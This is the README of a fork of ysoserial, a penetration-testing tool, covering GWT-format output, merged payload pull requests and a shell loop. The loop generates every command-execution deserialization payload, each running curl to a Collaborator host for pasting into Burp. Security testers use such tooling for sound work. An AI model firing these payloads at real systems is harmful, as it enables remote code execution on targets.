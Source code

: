 # ysoserial - Bishop Fox fork

This is a fork of [ysoserial](https://github.com/frohoff/ysoserial) that incorporates some additional features. Refer to the original project for most of the documentation.

## GWT serialization output

The original motivation for this fork was to add support for the nonstandard serialization format used by Google Web Toolkit (GWT). To output in GWT format, add the `--gwt` option, with a field name, e.g. `--gwt default`, `--gwt bishopfox`, etc. It's not necessary to pick a valid field name, but GWT will get a little farther in its deserialization logic if the field name is valid for the type of object the payload is being injected into, and this might be beneficial in some cases.

You can try out the GWT serialization output feature using [the example vulnerable GWT web app](https://github.com/BishopFox/VulnerableGWTApp) discussed in [the Bishop Fox blog post "GWT: An Eight-Year-Old Unpatched Java Deserialization Vulnerability"](https://bishopfox.com/blog/gwt-unpatched-unauthenticated-java-deserialization-vulnerability)

## Merged back-catalogue pull requests

This fork also includes content from 11 unmerged pull requests in the mainline project that seemed useful:

* [PR#200 - Jython2 payload](https://github.com/frohoff/ysoserial/pull/200) (renamed Jython3 to avoid conflict with PR#153)
* [PR#192 - MozillaRhino3 payload](https://github.com/frohoff/ysoserial/pull/192)
* Partial implementation of [PR#189 - Improved command-line handling](https://github.com/frohoff/ysoserial/pull/189) (adds the argument-handling logic, but not the -s and -p options because they seemed potentially fragile)
* [PR#184 - Improved C3P0 payload](https://github.com/frohoff/ysoserial/pull/184) (implemented as a new "C3P02" payload so the original version can still be easily used)
* [PR#177 - WildFly1 payload](https://github.com/frohoff/ysoserial/pull/177)
* [PR#172 - TLS support for RMIRegistryExploit utility](https://github.com/frohoff/ysoserial/pull/172)
* [PR#167 - ROME2 payload](https://github.com/frohoff/ysoserial/pull/167)
* [PR#162 - RMIRegistryExploit utility should only call createMemoitizedProxy if the payload is not already a Remote instance](https://github.com/frohoff/ysoserial/pull/162)
* [PR#159 - Jdk7u21variant payload](https://github.com/frohoff/ysoserial/pull/159)
* [PR#153 - Jython2 and JythonZeroFile payloads](https://github.com/frohoff/ysoserial/pull/153)
* [PR#134 - Improved help message output](https://github.com/frohoff/ysoserial/pull/134) (modified the default width from 210 to 80 for better compatibility)

# Usage

First, compile the code using the same steps as for the main project:

```
mvn clean package -DskipTests
```

Once compiled, using this fork of `ysoserial` is the same as the standard version unless you want to output in GWT mode.

```
Usage: java -jar ysoserial-[version]-all.jar [options] <payload> '<command>'
  Options:
    -h,--help                  Print usage
    -G,--gwt <field name>      Output in Google Web Toolkit (GWT) serialization format:
      ex. --gwt default
```

# Quickly trying all command execution payloads

Trying `URLDNS` first with a URL based on your Burp Suite Collaborator hostname is always a good idea, because most systems can resolve public DNS names. If you've confirmed that `URLDNS` works, but want to attempt actual code execution, this section provides an option for building all of the OS command execution payloads, which you can then copy/paste into Burp Repeater or similar.

These steps generate all possible OS command execution payloads for testing in conjunction with a Burp Suite Collaborator server in a way that will let you know which (if any) succeeded. The way this is accomplished is by executing a command that makes and HTTP request to your Collaborator server for a URI named after the payload. So if you see entries in your Collaborator console for `/CommonsBeanutils1`, you know that the `CommonsBeanutils1` gadget chain works against the target.

This example uses `curl`, which will of course fail if a system is vulnerable but does not have `curl` installed. You could modify the steps to try the same approach using `wget`, `nc`, etc. If none of those work, you could use `ping -c3`, `nslookup`, or `host`, but those will only let you know that a command succeeded, not which payload was responsible. 

First create a file named `command_execution_payloads.txt` containing the following lines:

```
BeanShell1
C3P0
C3P02
Click1
Clojure
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
Groovy1
Hibernate1
Hibernate2
JavassistWeld1
JBossInterceptors1
Jdk7u21
Jdk7u21variant
JSON1
Jython2
Jython3
JythonZeroFile
MozillaRhino1
MozillaRhino2
MozillaRhino3
ROME
ROME2
Spring1
Spring2
Vaadin1
```

Then execute the following commands, substituting the Collaborator DNS name and your `ysoserial` JAR path (e.g. `target/ysoserial-0.0.6-SNAPSHOT-all.jar`) where indicated. 

```
export COLLABORATOR="<your Collaborator DNS name here>"
export YSOSERIAL="<your ysoserial JAR path here>"
export FIELDNAME="bishopfox"
mkdir "payloads-${COLLABORATOR}-curl"

while read pn; do \
   java -jar "${YSOSERIAL}" \
   --gwt "${FIELDNAME}" \
   "${pn}" \
   "curl http://${COLLABORATOR}/${pn}" \
   | base64 -w0 | sed 's/+/\$/g' | sed 's./._.g' \
   > "payloads-${COLLABORATOR}/${pn}.bin.b64"; \
   done<command_execution_payloads.txt
```

You can then copy/paste the payloads into Burp Repeater or similar.
